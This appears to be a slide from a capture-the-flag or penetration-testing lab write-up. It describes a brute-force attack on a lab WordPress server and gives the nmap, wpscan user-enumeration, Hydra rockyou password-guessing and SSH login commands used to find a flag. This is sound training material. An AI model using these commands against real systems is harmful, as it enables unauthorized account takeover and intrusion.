

# Exploitation: Brute Force Attack
Summarize the following:
How did you exploit the vulnerability? E.g., which tool (Nmap, etc.) or technique (XSS, etc.)? Netdiscover to find ip address –nmap –p- -sV 192.168.1.110 shows is open – Wpscan –url http://192.168.1.110/wordpress --enumerate u (shows the 2 users – steven & michael) – use Hydra –l Michael –P /usr/share/wordlists/rockyou.txt.ssh://192.168.1.110 –t 4 (this will show the password for Michael) – ssh michael@192.168.1.110 (using hydra password crack) – search directories until you find service.html –cat service.html – flag1 is there

What did the exploit achieve? E.g., did it grant you a user shell, root access, etc.? The exploit allowed us to ssh into the into Wordpress server as Michael. Able to run search the server using commands for flag.

Include a screenshot or command output illustrating the exploit.
wpscan --url http://192.168.1.110/wordpress --enumerate u
Hydra –l Michael –P /usr/share/wordlists/rockyou.txt.ssh://192.168.1.110 –t 4
Ssh Michael@192.168.1.110

7